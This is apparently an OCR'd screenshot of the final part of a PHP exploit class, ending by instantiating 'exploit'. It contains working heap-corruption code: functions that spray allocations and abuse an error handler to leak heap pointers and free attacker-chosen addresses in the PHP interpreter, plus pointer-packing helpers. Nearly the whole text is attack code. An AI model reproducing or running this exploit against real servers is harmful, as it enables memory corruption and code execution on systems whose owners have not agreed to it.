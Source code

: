 ```php
}


private function leak_heap() {
	$contiguous = [];
 		for ($i = 0; $i < 10; $i++) {
			$contiguous[] = $this->alloc(0x100, "D");
 		}
    $arr = [[1,3,3,7], [5,5,5,5]];
    set_error_handler(function() use (&$arr, &$buf) {
        $arr = 1337;
        $buf = str_repeat("\x00", 0x100);
    });
    $arr[1] .= $this->alloc(0x4A, "F");
    return $this->str2ptr($buf, 16);
}


private function free($var_addr) {
    $contiguous = [];
        for ($i = 0; $i < 10; $i++) {
            $contiguous[] = $this->alloc(0x100, "D");
        }
    $arr = [[1,3,3,7], [5,5,5,5]];
    set_error_handler(function() use (&$arr, &$buf, &$var_addr) {
        $arr = 1;
        $buf = str_repeat("AAABAACAADAAEAAF" . $this->ptr2str($var_addr) . "IAAJAAKAALAAMAANAAOAAPAAQAARAASAATAAUAAVAAWAAXAAYAAZAAaAAbAAcAAdAAeAAfAAgAAhAAiAAjAAkAAlAAmAAnAAoAApAAqAArAAsAAtAAuAAvAAwAAxAAyAAzAA1AA2AA3AA4AA5AA6AA7AA8AA9AA0ABBABCABDABEABFABGABHABIABJABKABLABMABNABOABPABQABRABSABTABUABVABWABXABY", 0x1);
    });
    $arr[1] .= 1337;
}


private function alloc($size, $canary) {
    return str_shuffle(str_repeat($canary, $size));
}


private function str2ptr($str, $p = 0, $n = 8) {
    $address = 0;
    for($j = $n - 1; $j >= 0; $j--) {
        $address <<= 8;
        $address |= ord($str[$p + $j]);
    }
    return $address;
}

private function ptr2str($ptr, $m = 8) {
    $out = "";
    for ($i=0; $i < $m; $i++) {
        $out .= chr($ptr & 0xff);
        $ptr >>= 8;
    }
    return $out;
}

}

new exploit("haha");
?>
```